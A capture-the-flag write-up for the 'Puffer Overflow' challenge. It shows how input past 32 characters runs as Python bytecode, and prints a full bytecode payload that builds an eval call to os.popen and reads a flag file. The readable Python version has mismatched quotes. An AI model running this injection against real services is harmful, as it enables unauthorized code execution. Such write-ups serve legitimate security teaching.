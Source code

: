 # Puffer Overflow

>Let's review the code. 

There's two interesting functions - put_on_stack, which generates some interesting python bytecode to put a value onto the stack, and returns it.

Then, there's execute bytecode. It takes some bytecode, and, well, executes it. How though?

It loads 256 constants - 1,2,3, etc. matching up to 1,2,3,etc. 
As global variables, it loads the functions chr, ord, globals, locals, getattr and setattr. 
We have to use these functions alone to gain RCE. Impossible? No. But lets look into how we can do this.

We input a name. It takes the first 32 bytes of this, and generates some byte code that puts this name onto the stack. 
It then prepends said bytecode to all bytes afterwards, and executes it. 
If we put 0-32 chars, this is fine, but if we input anymore, then from the 33th character onwards is executed as python bytecode!

We must generate python bytecode that utilises the small set of functions and variables we have to gain RCE. My final payload in python code form was globals()[chr(101)+chr(118)+chr(97)+chr(108)](chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)+chr(46)+chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(112)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(104)+chr(111)+chr(109)+chr(101)+chr(47)+chr(114)+chr(97)+chr(99)+chr(116)+chr(102)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))

Not very readable, but in normal python code, 
```python
globals()['eval']("__builtins__.__import__('os').popen("cat /home/ractf/flag.txt").read())
```
How can we do this? We can't just go about compiling a .pyc or code using compile() - those files create constants and globals to suit them. We can't do this however, we must only use constants and variables given to us. We can analyse the put_on_stack function, and see what it does

`b"t\x00"` - load the first global, chr. We can replace with \x02 to load the 3rd global, globals
`b"d<number>"` - load constant for argument. When doing globals(), we don't need this.
`b"\x83\x01"` - call current function with 1 argument
`b"\x17\x00"` - binary add. does first value on stack + second value. note it's called binary but it can be used to concatenate strings just like adding numbers bcoz its python at the end of the day

we can use this to generate bytecode to call globals, `b"t\x02\x83\x00"`. Then, we must dynamically construct the word "eval" using only chr via the same methods the put_on_stack function uses. After that, we use the BINARY_SUBSCR opcode, b"\x19\x00", which computes TOP1 = TOP1[TOP2]

Now what? Loaded on the stack is the function eval. Now, using the same method as put_on_stack again, we construct our python payload that cats the flag. Finally, we wrap it all up with a b"\x83\x01" - call the function eval, loaded from globals()['eval'], with one argument.

I ended up doing some enumeration, and finding `flag.tx`t in `/home/ractf`, then catting it.

This results in the flag ractf{Puff3rf1sh??}. I will post the final bytecode, my generation script, and the final exploit script below.


Bytecode: 
```
t\x02\x83\x00t\x00de\x83\x01t\x00dv\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00\x19\x00t\x00d_\x83\x01t\x00d_\x83\x01\x17\x00t\x00db\x83\x01\x17\x00t\x00du\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dn\x83\x01\x17\x00t\x00ds\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dm\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00ds\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00dn\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00dc\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d \x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00dh\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dm\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dc\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00df\x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00df\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dg\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00dx\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dd\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00\x83\x01
```

#### ractf{Puff3rf1sh??}
